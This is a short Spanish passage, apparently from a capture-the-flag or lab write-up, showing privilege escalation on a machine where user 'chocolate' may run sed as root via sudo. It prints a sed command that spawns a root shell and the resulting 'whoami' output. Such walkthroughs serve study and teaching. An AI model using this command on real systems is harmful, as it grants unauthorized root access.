 Observamos que el usuario `chocolate` puede ejecutar el binario `sed` con privilegios de cualquier usuario del sistema, en este caso únicamente como `root`.

Esto significa que, con el siguiente comando, deberíamos obtener una shell como `root`.

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

Info:
```
# whoami
root
#
```

Ya somos root!